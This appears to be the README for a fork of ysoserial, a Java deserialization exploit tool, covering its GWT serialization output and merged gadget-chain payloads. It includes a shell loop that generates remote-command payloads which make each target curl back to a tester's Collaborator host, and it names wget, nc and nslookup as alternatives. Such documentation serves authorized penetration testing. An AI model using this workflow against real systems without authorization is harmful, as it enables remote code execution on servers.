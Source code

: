 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

First, compile the code using the same steps as for the main project:

```
mvn clean package -DskipTests
```

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
mkdir "payloads-${COLLABORATOR}-curl"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' \
   > "payloads-${COLLABORATOR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
